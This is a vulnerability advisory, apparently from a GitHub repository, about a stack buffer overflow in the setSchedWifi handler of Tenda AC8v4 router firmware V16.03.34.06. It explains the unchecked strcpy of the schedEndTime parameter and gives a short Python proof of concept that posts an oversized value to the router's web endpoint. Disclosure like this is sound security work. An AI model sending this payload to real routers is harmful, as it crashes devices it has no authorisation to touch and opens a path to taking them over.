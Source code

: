 # Tenda AC8v4 V16.03.34.06(2)

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

V16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `v8` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `ptr+10` variable, which is fixed at 25 bytes. However, since the user can control the input of  `schedEndTime`, the statement `strcpy((char *)ptr + 10, v8);` can cause a buffer overflow. The user-provided  `schedEndTime` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![1735652460255](F:\Desktop\工具\二进制漏洞\IoT\img\1735652460255.png)

![1735652484802](F:\Desktop\工具\二进制漏洞\IoT\img\1735652484802.png)

![1735652519036](F:\Desktop\工具\二进制漏洞\IoT\img\1735652519036.png)

## POC

```python
import requests

url = "http://192.168.1.100/goform/openSchedWifi"
data = {
        "schedEndTime":b'A'*1000
}
requests.post(url=url,data=data)
```

![1735650674572](F:\Desktop\工具\二进制漏洞\IoT\img\1735650674572.png)

